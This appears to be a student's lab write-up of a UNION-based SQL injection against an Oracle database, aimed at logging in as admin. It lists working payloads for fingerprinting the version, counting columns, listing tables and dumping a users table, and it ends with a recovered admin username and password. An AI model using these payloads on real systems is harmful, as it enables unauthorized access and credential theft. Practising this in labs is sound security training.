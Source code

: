# Goal
    - Login as admin

# Preliminary Work
    - Get the SQL Version
        -- ' UNION SELECT @@version
            -- Unsuccessful
        -- [Oracle] ' UNION SELECT BANNER,NULL FROM v$version--
            - SUCCESS
            - ![Oracle Version](./130057.png)  
        -- SELECT version()
    - Determine number of columns needed for UNION
        -- ' ORDER BY (number)--
            -- stop when you get an error
        -- ' ORDER BY 3-- yielded error so we know there are 2 columns
            -- ALL tables have 2 columns
    - Determine which columns can handle text (to display juicy info)
        -- ' UNION SELECT 'a',NULL,NULL,... FROM dual--
            -- Oracle requires selection from a table
            -- dual is a dummy table that anyone can access :)
        -- ' UNION SELECT 'a',NULL FROM dual-- ||| ' UNION SELECT NULL,'a' FROM dual-- both worked
            -- both columns support text (good news for username and passwords)

# Looking Through the Database (non-Oracle)
    - Get list of table names
        -- ' UNION SELECT TABLE_NAME,NULL FROM all_tables--
        -- ![](141930.png)
    - CRTL-F 'user' to find potential tables
        -- USERS_ELWKUV (worked!)
        -- USER$
    - Get columns for the tables ()
        -- PASSWORD_UOJZWJ | USERNAME_WRUUZC
        -- ![](141953.png)
    - Get the column data
        -- ' UNION SELECT USERNAME_WRUUZC,PASSWORD_UOJZWJ FROM USERS_ELWKUV--
        -- ![](142008.png)
    - Admin Info
        -- uname: administrator
	    -- pword: b4if4ckvox1tsk8wlgjx



